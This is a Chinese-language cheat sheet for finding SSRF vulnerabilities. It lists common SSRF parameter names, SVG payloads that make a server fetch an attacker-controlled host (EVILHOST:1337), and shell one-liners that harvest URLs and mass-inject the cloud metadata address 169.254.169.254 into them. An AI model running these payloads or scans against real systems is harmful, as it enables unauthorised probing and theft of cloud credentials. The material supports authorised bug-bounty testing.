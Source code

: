 # SSRF 漏洞挖掘技巧

## 0x1 自动化挖掘SSRF

### 0x1.1 组合思路

![Et9d-mlXYAE7cg0](常用的SSRF参数.assets/Et9d-mlXYAE7cg0-3134197.jpeg)





### 0x1.2 burp插件SSRF-king

```
git clone https://github.com/ethicalhackingplayground/ssrf-king
gradle build
```

> 自动使用burpcollaborator来进行探测非常方便

介绍链接:https://www.kitploit.com/2021/01/ssrf-king-ssrf-plugin-for-burp.html?utm_source=dlvr.it&utm_medium=twitter

## 0x1.3 one-liner

```
1 Run getallurls for all assets & merge results
2 `cat results | grep "url="| anti-burl | tee ssrf.txt`
3 Review & cleanup list 
4 Fuzz all "url-like" params w/ Burp collab & #ffuf
```





## 常用的SSRF参数

```
?url=[SSRF]
?q=[SSRF]
?u=[SSRF]
?link=[SSRF]
?host=[SSRF]
?file=[SSRF]
?path=[SSRF]
?imgurl=[SSRF]
?src=[SSRF]
?consumerUri=[SSRF]
```



##  挖掘SSRF一些技巧

### svg服务端图片处理导致的盲ssrf

Content-Type: image/svg+xml

```
<?xml version="1.0" encoding="UTF-8" standalone="no"?><svg xmlns:svg="http://www.w3.org/2000/svg" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="200" height="200"><image height="200" width="200" xlink:href="http://<EXAMPLE_SERVER>/image.jpeg" /></svg>


<svg xmlns:svg=”http://w3.org/2000/svg" xmlns=”http://w3.org/2000/svg" xmlns:xlink=”http://w3.org/1999/xlink" width=”200" height=”200">
<image height=”30" width=”30" xlink:href=”http://EVILHOST:1337/SVG-SSRF-TEST" />
</svg>
```

利用参考:https://hackerone.com/reports/223203



## oneliner

1/4

```
cat params.txt | qsreplace "http://169.254.169.254/latest/meta-data/hostname" | xargs -I host -P 50 bash -c "curl -ks 'host' | grep \"compute.internal\" && echo -e \"[VULNERABLE] - X \n \"" | grep "VULN"
```

2/4

```
cat ssrf.txt | qsreplace "interactsh server ID" | anew -q ssrf_test.txt
ffuf -w ssrf_test.txt -u FUZZ -p "0.6-1.2" -H "(header in thread)" -t 200 -s
```

3/4

```
subfinder -d http://target.com -all -silent | httpx -silent -threads 500 | anew -q subdomains.txt

cat subdomains.txt | gauplus --random-agent -b png,jpg,svg,gif -t 500 | anew -q gau_output.txt
```

4/4

```
cat subdomains.txt | xargs -P 30 -I host bash -c "echo host | waybackurls | anew -q wayback_output.txt"

cat wayback_output.txt gau_output.txt | urldedupe -s | anew -q params.txt

cat parameters.txt | gf ssrf | anew -q ssrf.txt
```



## 相关的在线工具

记录触发点:

 https://ssrftest.com/

https://webhook.site/ (可以自定义文件内容)
